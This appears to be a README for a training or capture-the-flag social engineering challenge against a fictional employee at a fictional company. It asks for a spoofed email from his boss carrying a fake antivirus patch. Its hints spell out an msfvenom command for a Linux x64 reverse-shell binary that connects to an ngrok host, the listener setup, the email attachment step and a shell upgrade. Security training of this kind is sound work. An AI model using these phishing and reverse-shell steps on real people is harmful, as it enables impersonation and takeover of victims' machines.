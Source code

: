 # Social Engineering Challenge 3

----------------------

For this one, we're going to target Kylo Solo's trust in his boss, IT Director Scotty LaForge.

Your goal is to send an email TO Kylo Solo, FROM his boss Scotty, with an evil attachment. You should say the attachment is a patch Kylo needs to run to update his antivirus, or some such thing. 

Your attachment should be booby-trapped; it should grant you access to his machine using a reverse shell, or some such thing.

- Frank Johnson
Chief Security Officer, Veritas Inc.

NOTE - Kylo is super eager to please his boss. He will immediately open and run all attachments you send him. In this case, he doesn't have java/flash/a pdf reader installed, so you should probably send him a binary. Note that he's running a linux x64 machine.

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
  
  msfvenom (which is installed on Kali linux) is an app that lets you craft a binary for any target OS/architecture. For Kylo, be sure to target x64 architecture and the linux platform. 
  
  msfvenom --platform linux -p linux/x64/shell/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19358 -b "\x00" -f elf > ~/Desktop/runme

</details>

<details> 
  <summary>Click for hint 2</summary>
  If you use a shell/reverse_tcp exploit, you will need a publicly visible LHOST and LPORT (ngrok is great for that) when crafting the binary with msfvenom. Use something like `./ngrok tcp 443` to get your publicly available LHOST and LPORT.
  
  Then when using msfconsole to listen for the exploit's response, your LHOST and LPORT values there will be your localhost ones that ngrok points to - so LHOST for msfconsole should be 127.0.0.1 and LPORT 443. To get started in msfconsole, run `use exploit/multi/handler` and set your payload to the same one you ran in msfvenom - that should set it up to listen properly.
</details>

<details> 
  <summary>Click for hint 3</summary>
  To add an attachment in sendEmail, all you have to do is this: `-a "/root/Desktop/runme"` where runme is the executable file you want attached.
</details>

<details> 
  <summary>Click for hint 4</summary>
  If you obtained a shell to the remote server by using a reverse/tcp payload, it's not very pretty - make it more functional and pretty by running this in it:
  
  ```
  python -c "import pty; pty.spawn('/bin/bash');"
  ```
</details>



